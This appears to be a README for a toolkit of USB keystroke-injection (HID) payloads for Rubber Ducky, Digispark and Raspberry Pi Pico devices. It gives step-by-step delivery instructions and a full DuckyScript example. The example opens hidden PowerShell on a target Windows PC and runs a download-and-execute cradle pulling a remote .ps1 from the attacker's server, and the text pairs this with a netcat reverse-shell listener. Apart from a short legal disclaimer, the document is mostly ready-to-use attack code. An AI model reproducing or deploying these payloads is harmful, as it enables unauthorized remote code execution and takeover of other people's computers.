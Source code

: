 

<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
</head>
<body>
  <h1>HID-based PowerShell Payload PicoKit</h1>
  <h2>Automated Payload Delivery Using USB Rubber Ducky &amp; Raspberry Pi Pico</h2>

  <p>
    This toolkit provides ready-to-deploy DuckyScript (<code>.ducky</code>) payloads for use with USB Rubber Ducky, Digispark, or Pico HID attack platforms.<br>
    <strong>Not for manual execution—these are keyboard emulation scripts only.</strong>
  </p>
  <blockquote>
    <strong>For legal, authorized penetration testing and education only!</strong>
  </blockquote>

  <ol>
    <li>
      <h3>Quick Start</h3>
      <p><strong>Clone the Repository:</strong></p>
      <pre><code>git clone https://github.com/e3ci7e/Pico
cd Pico
</code></pre>
    </li>
    <li>
      <h3>Prepare Your Payloads</h3>
      <p><strong>Edit the Payloads</strong></p>
      <ul>
        <li>DuckyScript files (<code>payload.ducky</code>) are provided.</li>
        <li>Replace all placeholders (<code>YOUR_IP</code>, <code>PORT</code>, <code>YOUR_FILE.ps1</code>) in the scripts with your own attack server details.
          <pre><code>STRING IEX (New-Object Net.WebClient).DownloadString('http://YOUR_IP:PORT/YOUR_FILE.ps1')
</code></pre>
        </li>
        <li>Host your payload <code>.ps1</code> file(s) using a simple HTTP server:
          <pre><code>python3 -m http.server 8000
</code></pre>
        </li>
      </ul>
    </li>
    <li>
      <h3>Flash Ducky Script to Your Device</h3>
      <ul>
        <li><strong>For Rubber Ducky:</strong>
          <ul>
            <li>Convert your <code>.ducky</code> file to <code>inject.bin</code> using
              <a href="https://github.com/hak5darren/USB-Rubber-Ducky/wiki/duckencode" target="_blank">Hak5 DuckEncoder</a>:
              <pre><code>java -jar duckencode.jar -i payload.ducky -o inject.bin
</code></pre>
            </li>
            <li>Flash <code>inject.bin</code> onto your Rubber Ducky’s micro SD.</li>
          </ul>
        </li>
        <li><strong>For Raspberry Pi Pico, Digispark, etc.:</strong>
          <ul>
            <li>Convert <code>.ducky</code> to the correct format required by your firmware (e.g., Duckyscript to CircuitPython for Pico).</li>
            <li>Copy to device as per your toolkit’s guidelines.</li>
          </ul>
        </li>
      </ul>
    </li>
    <li>
      <h3>Plug in and Attack</h3>
      <ul>
        <li>Insert your HID device into the <strong>target Windows PC</strong>.</li>
        <li>The HID emulates keyboard input:
          <ul>
            <li>Opens <kbd>Win+R</kbd>, launches hidden PowerShell.</li>
            <li>Types/downloads/executes your remote payload—<strong>NO user interaction needed</strong>.</li>
          </ul>
        </li>
        <li>On your attacker machine, set up a Netcat listener (for reverse shells):
          <pre><code>nc -lvnp L_PORT
</code></pre>
          <p>Replace <code>L_PORT</code> with your port.</p>
        </li>
      </ul>
    </li>
    <li>
      <h3>Example DuckyScript Payload</h3>
      <pre><code>DELAY 1000
GUI r
DELAY 500
STRING powershell -WindowStyle Hidden
ENTER
DELAY 800
STRING IEX (New-Object Net.WebClient).DownloadString('http://YOUR_IP:PORT/YOUR_FILE.ps1')
ENTER
</code></pre>
      <ul>
        <li><strong>Edit:</strong> Change the URL to your IP/port/filename.</li>
        <li>Place the corresponding <code>.ps1</code> (e.g., reverse shell or AMSI bypass) on your server before use.</li>
      </ul>
    </li>
  </ol>

  <h3>Legal/Ethical Use</h3>
  <blockquote>
    These payloads automate attack delivery for red teamers, CTF players, and security researchers—not intended for manual use!<br>
    <strong>Never use on systems or networks without WRITTEN permission.</strong>
  </blockquote>
</body>
</html>
